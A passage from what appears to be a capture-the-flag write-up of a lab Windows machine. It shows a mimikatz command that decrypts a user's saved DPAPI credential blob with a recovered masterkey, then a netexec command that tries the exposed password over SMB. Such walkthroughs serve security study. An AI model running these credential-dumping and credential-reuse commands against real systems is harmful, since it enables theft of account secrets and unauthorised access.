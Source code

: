 ![Masterkey obtained](/assets/img/Office/Office_32.png)

Now that we have the masterkey we can start trying to decrypt the previously found credential blobs. This key will only work on one specific blob. At this moment i didn't know it yet but for the write up i'll just include the correct one.

```powershell
.\mimikatz.exe "dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\credentials\84F1CAEEBF466550F4967858F9353FB4 /masterkey:87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166" "exit"
```

![Credentials obtained](/assets/img/Office/Office_33.png)


```bash
netexec smb 10.129.105.41 -u 'HHogan'  -p 'H4ppyFtW183#' 
```
